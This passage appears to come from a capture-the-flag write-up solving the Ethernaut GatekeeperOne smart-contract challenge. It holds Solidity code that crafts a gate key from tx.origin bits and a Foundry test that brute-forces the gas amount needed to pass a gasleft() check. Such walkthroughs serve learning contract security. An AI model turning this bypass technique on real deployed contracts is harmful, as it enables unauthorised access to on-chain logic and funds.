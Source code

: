 | Hex  | First 32 bits | Last 32 bits |
| ---- | ------------- | ------------ |
| `0x` | `12345678`    | `ABCDEFGH`   |

When combined, we will get something like `0x12345678ABCDEFGH`. So let's create a function to craft the `gateKey` accordingly:

```javascript
function _constructGateKey() private view returns (bytes8 gateKey) {
        // Get the last 16 bits of tx.origin by converting it to uint160 and then to uint16
        uint16 ls16BitsTxOrigin = uint16(uint160(tx.origin));
        // Concatenate the last 16 bits with 0x0001000000000000
        // Where 0x0001000000000000 is a bunch of 0 with an arbitrary 1 somewhere
        // so the first 32 bits differ from each other;
        // The bitwise OR operator is used to combine the two numbers;
        // The result is cast to bytes8;
        gateKey = bytes8(
            uint64(uint64(0x0001000000000000) | uint64(ls16BitsTxOrigin))
        );
        return gateKey;
    }
```

### Modifier 2

```javascript
 modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

We have to make sure that the `gasleft()` is a multiple of 8191. We will have to somehow loop until we get the right amount of gas, and this is why we handle this modifier last. We can write a quick test to find it out:

```javascript
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import {GateSkipperOne} from "src/13_GatekeeperOne.sol";

contract TestGateKeeperOne is Test {
    GateSkipperOne private gateSkipperOne;

    function setUp() public {
        gateSkipperOne = new GateSkipperOne(
            0x3D47f75FdB928E3DC0206DC0Dc3470fF79A43fE2
        );
    }

    function test() public {
        for (uint256 i = 100; i < 8191; i++) {
            try gateSkipperOne.attack(i) {
                console.log("gas", i);
                return;
            } catch {}
        }
        revert("No gas match found!");
    }
}
```
